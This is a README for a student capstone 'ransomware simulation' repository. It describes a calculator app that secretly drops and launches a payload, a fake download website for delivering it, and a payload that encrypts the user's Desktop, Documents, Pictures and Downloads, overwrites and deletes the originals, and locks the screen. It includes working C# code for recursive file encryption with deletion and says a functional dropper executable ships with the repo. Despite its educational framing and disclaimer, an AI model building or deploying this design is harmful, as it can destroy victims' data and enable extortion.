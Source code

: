 # Ransomware Simulation with Deployment Methods and Mitigation Strategies

**Author:** Aimery Barrault
**Course:** CSCI 460 – Capstone

---

## 🚀 Project Overview

This repository contains a controlled, educational ransomware simulation.

> **Warning:** Do **not** deploy on production systems or without explicit authorization.

* **CalculatorApp.exe**
  A benign “calculator” UI that embeds, drops, and launches the real payload.
* **capstone-site/**
  A Next.js “fake download” website used to deliver the payload.
* **payload.txt** & **base64script.py**
  Utilities to embed and extract the encrypted dropper.

---

## ⚙️ Fake-Download Site Setup

1. **Change into the site directory**

   ```bash
   cd capstone-site
   ```

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Add your payload**
   Copy into:

   ```
   capstone-site/public/Downloads
   ```

   > **Note:** The functional dropper executable can also be found directly at `capstone-site/public/Downloads/CalculatorApp.exe` for convenience.

4. **Run in development mode**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Then open [http://localhost:3000](http://localhost:3000) in your browser.

---

## 🖥️ CalculatorApp (Dropper UI)

**`MainWindow_CalculatorApp.cs`**   A WPF application that:

1. Displays a standard calculator interface.
2. On trigger (e.g. Backspace), reads a Base64-encoded string.
3. Decodes and writes `CalculatorManager.exe` to `%USERPROFILE%\Documents\`.
4. Launches `CalculatorManager.exe` and exits.

---

## 🔒 Ransomware Simulator

**`MainWindow_Manager.cs`**   A WPF application that performs:

1. **File Encryption**

   * Recursively encrypts files under Desktop, Documents, Pictures, Downloads, and Public Documents.
   * Uses AES-128 CBC with a fresh IV per file, prepended to the ciphertext.
2. **Secure Deletion**

   * Overwrites each original file with zeros, then deletes it.
3. **Countdown Timer**

   * Displays a 24-hour full-screen, top-most UI lockout.
4. **Password-Protected Decryption**

   * Verifies via PBKDF2(SHA-256), allowing up to three attempts.

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; }

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>

---

## ✅ Windows VM Execution

1. Copy `CalculatorApp.exe`, `CalculatorManager.exe`, and supporting scripts to a Windows 10 VM.
2. Run:

   ```powershell
   .\CalculatorApp.exe
   ```
3. Observe `.aes` files appearing in Desktop, Documents, etc.
4. Enter the correct password to decrypt and restore files.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software, you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

This project is released under the MIT License. See [LICENSE.md](LICENSE.md) for full terms.

